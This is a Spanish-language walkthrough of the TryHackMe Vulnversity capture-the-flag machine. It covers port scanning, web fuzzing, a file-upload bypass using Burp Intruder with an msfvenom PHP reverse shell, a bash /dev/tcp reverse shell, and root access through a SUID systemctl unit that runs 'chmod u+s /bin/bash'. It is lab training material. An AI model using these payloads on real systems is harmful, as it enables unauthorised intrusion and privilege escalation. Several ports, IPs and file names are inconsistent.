## Vulnversity

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/Vulnversity" target="_blank">Vulnversity</a></h3>

<h3>Dificultad:  </h3>

## Descripción del ataque

Empezamos con un escaneo de puertos con la herramienta Nmap:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.154.173
```
<p align="center"> 

</p>

Observamos que el puerto 333 (http) está abierto, por tanto, accedemos a la página poniendo en el navegador:

```
http://10.10.175.169:3333/
```

<p align="center"> 

</p>

Usaremos fuzzing web para encontrar subdominios, usado el siguiente comando

```
 gobuster dir -u http://192.168.0.103:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
<p align="center"> 

</p>

El subdominio interal me resulta muy interesante, en el navegador escribimos lo siguiente:

```
http://192.168.0.103:3333/internal/
```
<p align="center"> 

</p>

En esta ocasión, podemos llevar acabo la explotacion **file upload** creando un archivo malicioso con **msfvenom**

```
msfvenom -p php/reverse_php LHOST=<IP Atacante> LPORT=443 -o shell.php
```

A continuación vamos a tener problemas, porque resulta que en este caso el upload no permite la subida de archivos con la extension .php, para saber cual es la correcta usaremos **burp suite**

Tenemos que incerceptar la página internal en burp suite para ello nos situamos en **Proxy- Intercept-intercpt on**. Una vez activado, volvemos a realizar la subida, luego al botón derecho del ratón y se clikea en **send to repeater**

<p align="center"> 

</p>

Nos situamos en la pestaña **intruder**, seleccionamos toda la información de la página y le damos a **clear**

<p align="center"> 

</p>

Luego, señalamos solo lo que vamos a cambiar. En este caso sería la extensión del archivo **shell.php**, y le damos a **Add**

<p align="center"> 

</p>

Quedaría tal que así:

<p align="center"> 

</p>

**Nota informativa**. Aunque en la imagen aparezca con el nombre **pwnedl.php** lo importante es la extensión del archivo, no el nombre.

Después, en la pantalla de la derecha nos sitaumos en **setting - Grep - Extract**

<p align="center"> 

</p>

Clikeamos en **Add**, y luego a **Refetch reponse**. Luego buscamos la parte donde debería de cambiar el texto, que en este caso sería **Extension not allowed** y le damos a ok

<p align="center"> 

</p>

Quedaría así:

<p align="center"> 

</p>

Cuando el mensaje **Extension not allowed** cambie a **Success**, conseguimos premio

A continuación, preparamos el payload con un diccionario, despues le damos a **Start attack**

<p align="center"> 

</p>

Resultado:

<p align="center"> 

</p>

Por tanto cambiamos la extension del archivo malicioso **shell.php** a **shell.phtml**

```
mv shell.php shell.phtml
```

Ahora si nos dejará subir el archivo malicioso

Nuestro siguiente objetivo es encontrar donde se encuentra el archivo subido para ello usaremos fuzzing web

```
gobuster dir -u http://10.10.175.169:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<p align="center"> 

</p>

Dejamos activado este comando, que significa que estamos escuchando por el puerto 443.

```
sudo nc -lvnp 443
```

Clikeamos al archivo recien subido

<p align="center"> 

</p>

Luego nos situamos en el comando donde activamos el puerto de escucha, y nos aparecerá lo siguiente:

<p align="center"> 

</p>

Para tener una conexión más estable, abrimos una terminal y escribimos lo siguiente:

```
sudo nc -lvnp 444
```

Luego, en la otra terminal que conectamos antes escribimos lo siguiente:

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/444 0>&1"
```

<p align="center"> 

</p>

El anterior comando nos lo podemos encontrar en la siguiente enlace: <a href="https://www.revshells.com" target="_blank">Reverse Shell</a>

### Escalada de privilegio

A continuación realizamos el siguiente comando:

```
find / -perm -4000 2>/dev/null
```
<p align="center"> 

</p>

Es normal que al principio no sabemos que archivos usar, por tanto, nos ayudamos con esta pagina <a href="https://gtfobins.github.io" target="_blank">gtfobins</a>

En el buscador escribimos systemctl, luego nos situamos en el apartado **SUID**, ya que, el comando anterior forma parte de **SUID**

<p align="center"> 

</p>

Explicación del código:

<p align="center"> 

</p>

En la flecha 1,  lo que va entre comillas, es el comando que se ejecutaría. **Hay que tenerlo muy en cuenta**

Luego, en las fechas 2 **Se recomienda sustituir por la ruta absoluta**

Para Realizar la escalada de privilegio tenemos que realizar el **tratamiento de la TTY**

### Tratamiento de la TTY

El comando que se van a realizar a continuación es:

```
script /dev/null -c bash
```
Luego, **control z**

Luego, introducimos una serie de comandos:

```
stty raw -echo; fg
reset xterm
```

Luego en la nueva terminal, exportamos las nuevas variables:

```
export TERM=xterm
export SHELL=bash
```
<p align="center"> 

</p>

Ahora comandos como **control c** y **clear** funcionará sin problema!!

### Volviendo a la escalada de privilegio

Nos situamos en la carpeta tmp

```
cd /tmp
```

Creamos un fichero llamado escalada.txt en su interior escribimos lo siguiente:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Los cambios relevantes han sido **id > /tmp/output** por **chmod u+s /bin/bash**

El comando **chmod u+s /bin/bash** --> es muy importante, porque consigo cambiar el permiso de la bash a root

**No nos olvidemos de cambiar la ruta relativa por la ruta absoluta**

Una vez guardado, ejecutamos el siguiente comando:

```
bash escalada.sh (nombre del script)
bash -p
whoami
```

<p align="center"> 

</p>

Nos situamos en la carpeta root, ahí encontraremos la red flag que nos falta:

```
cd /root
```
<p align="center"> 

</p>

**Máquina terminada**